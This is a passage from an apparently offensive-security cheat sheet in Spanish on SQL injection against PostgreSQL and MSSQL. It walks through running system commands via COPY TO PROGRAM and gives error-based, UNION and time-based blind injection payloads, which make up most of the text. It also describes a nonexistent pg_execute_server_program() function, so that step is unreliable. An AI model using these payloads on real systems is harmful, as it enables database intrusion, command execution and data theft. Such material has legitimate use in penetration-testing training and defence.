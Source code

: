 Si el usuario de PostgreSQL tiene permisos, puedes ejecutar comandos del sistema:
```
COPY (SELECT '') TO PROGRAM 'id > /tmp/output.txt';
```
Esto ejecuta `id` y almacena el resultado en `/tmp/output.txt`. Puedes leer el contenido después con `pg_read_file()`.
 
 ---

### **4. Escalada con `pg_execute_server_program()` (PostgreSQL 9.3+)**

Desde PostgreSQL 9.3 en adelante, podemos usar esta función para ejecutar comandos:

```
SELECT pg_execute_server_program('whoami');
```
Si funciona, significa que tenemos ejecución de comandos con privilegios del usuario de la base de datos.

##  MSSQL

### **1. Diferencias Clave en MSSQL**

-   **Stacked queries (`;`) son soportadas**, lo que permite ejecuciones más directas.
-   **Soporta `xp_cmdshell` para ejecutar comandos en el sistema**, si está habilitado.
-   **Tiene `OPENROWSET`, `sp_OA*` y funciones CLR para ejecución avanzada.**
-   **No usa `pg_sleep()` ni `BENCHMARK()`, pero puedes hacer delays con `WAITFOR DELAY`.**

---

### **2. Enumeración de la Base de Datos**

Si la inyección no muestra resultados directamente, puedes usar **error-based** o **time-based**.

#### **a) Error-Based SQLi**

Forzamos un error para extraer información:

```
' UNION SELECT 1,2,3,@@version; --  
```
O provocamos un error intencional con `CONVERT()`:
```
' UNION SELECT 1,2,3,CONVERT(INT, DB_NAME()); --  
```
Si la aplicación devuelve el error, podemos extraer datos caracter por caracter.

#### **b) Time-Based Blind SQLi**

>Si no podemos ver la respuesta, usamos `WAITFOR DELAY`:
```
' IF (SUBSTRING(@@version,1,1)='1') WAITFOR DELAY '0:0:5'; --  
```
Si la consulta se retrasa 5 segundos, significa que la versión de MSSQL empieza con "1".

---